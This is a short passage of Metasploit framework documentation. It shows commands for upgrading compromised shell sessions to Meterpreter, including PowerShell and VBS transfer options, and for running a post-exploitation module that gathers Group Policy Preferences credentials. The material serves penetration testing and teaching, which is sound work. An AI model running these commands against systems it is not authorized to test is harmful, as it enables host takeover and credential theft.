 ## Upgrading shells to Meterpreter

To upgrade a specific session to Meterpreter:

```
sessions -u 3
```

To upgrade the most recently opened session to Meterpreter using the `sessions` command:

```
sessions -u -1
```

Or run the `shell_to_meterpreter` module manually:

```
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
```

## Post Modules

Providing inline options also works for post modules:

```
use auxiliary/windows/gather/credentials/gpp
run session=-1
```

